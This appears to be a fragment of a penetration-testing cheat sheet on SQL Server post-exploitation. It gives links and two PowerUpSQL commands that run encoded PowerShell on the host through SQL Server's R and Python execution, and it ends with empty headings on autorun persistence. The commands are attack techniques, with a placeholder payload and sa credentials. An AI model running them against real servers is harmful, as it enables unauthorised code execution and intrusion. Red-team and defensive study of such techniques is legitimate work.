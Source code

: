 > https://gist.github.com/james-otten/63389189ee73376268c5eb676946ada5
> https://www.slideshare.net/nullbind/beyond-xpcmdshell-owning-the-empire-through-sql-server

PowerUpSQL:
```
Invoke-SQLOSCmdR -Username sa -Password pw -Instance instance -Command "powershell -e <base64encodedscript>" -Verbose
Invoke-SQLOSCmdPython -Username sa -Password pw -Instance instance -Command "powershell -e <base64encodedscript>" -Verbose
```

# Registry Autoruns
# File Autoruns
